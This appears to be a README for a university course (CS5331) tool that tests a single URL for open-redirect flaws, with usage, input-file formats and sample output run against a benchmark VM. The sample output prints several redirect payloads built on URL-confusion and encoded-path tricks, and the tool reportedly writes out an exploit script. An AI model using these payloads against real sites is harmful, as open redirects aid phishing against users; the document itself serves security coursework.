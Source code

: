 
# STATUS

WORKING:
- Injecting to a single endpoint (URL)
- Supply parameters and their values
- Perform redirection successfully on Benchmark VM
- Print out result in JSON (timestamp.json), generate exploit script (timestamp.sh)
-- Sample files available.

TODO:
- Implement supplying of cookie file
- ***INTEGRATE WITH MAIN SCANNER (ESPECIALLY ON PARAMETER-VALUE PAIR)

==============================================

### WARNING: requests MUST be installed.
Looks like running sudo apt-get install python-pip will install requests automatically.

Redirect script for CS5331 Purposes

### Command:
```sh 
python redirect.py <targetURL> <paramfile> <payloadfile> (cookiefile) 
```
### Example: 
```sh 
python redirect.py http://target.com/openredirect/openredirect.php param.txt payload.txt cookie.txt 
```

```<targetURL>```: Contains the URL you wish to target. Example: http://target.com/openredirect/openredirect.php

```<paramfile>```: Contains the parameters. MUST HAVE FILE PRESENT.
Sample File: G = GET, P = POST, added before actual param names.
Gsid=234512213443
Gredirect
Program will always run in GET mode unless POST params are detected.

```<payloadfile>```: Contains the payload needed to redirect to https://status.github.com. MUST HAVE FILE PRESENT.

```(cookiefile)``` OPTIONAL: If cookie file is present, will attempt to load the cookies into the request. The format is as such:
Sample File:
enwiki_session|17ab96bd8ffbe8ca58a78657a918558

### Sample:
```sh
cs5331@benchmark:~/Desktop/VB/redirect$ python redirect.py http://target.com/openredirect/openredirect.php param.txt payload.txt 
NOTE: FIRST TWO PAYLOADS ARE GUARANTEED TO FAIL FOR TESTING PURPOSES.

Trying with payload: //3H6k7lIAiqjfNeN@example.com@status.github.com/messages/ .... Failed.
Trying with payload: //XY>.7d8T\205pZM@example.com@status.github.com/messages/ .... Failed.
Trying with payload: https://status.github.com/messages/%2e%2e%2f .... Success.

23042018-033801.json generated.
23042018-033801.sh generated.
```